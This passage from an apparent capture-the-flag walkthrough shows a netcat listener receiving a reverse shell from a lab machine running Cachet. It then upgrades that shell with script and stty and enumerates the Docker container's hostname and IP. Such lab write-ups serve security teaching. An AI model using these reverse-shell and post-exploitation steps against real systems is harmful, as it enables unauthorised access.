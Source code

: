 
I’ll refresh the page, and it hangs. There’s a shell at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.150 35616
    bash: cannot set terminal process group (26): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@70e4165dab0b:/var/www/html/Cachet/public$
    

I’ll upgrade my shell with `script` and `stty` ([shell upgrade
explained](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

    
    
    www-data@70e4165dab0b:/var/www/html/Cachet/public$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@70e4165dab0b:/var/www/html/Cachet/public$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@70e4165dab0b:/var/www/html/Cachet/public$
    

### Shell as will on host

#### Enumeration

It’s clear based the hostname that I’m not on the host:

    
    
    www-data@70e4165dab0b:/var/www/html/Cachet/public$ hostname
    70e4165dab0b
    

The IP is 172.17.0.8:

    
    
    www-data@70e4165dab0b:/$ ifconfig
    bash: ifconfig: command not found
    www-data@70e4165dab0b:/$ ip addr 
    bash: ip: command not found
    www-data@70e4165dab0b:/$ cat /proc/net/fib_trie        
    Main:
      +-- 0.0.0.0/0 3 0 5
         |-- 0.0.0.0
            /0 universe UNICAST
    ...[snip]...
               |-- 172.17.0.8
                  /32 host LOCAL
    ...[snip]...
    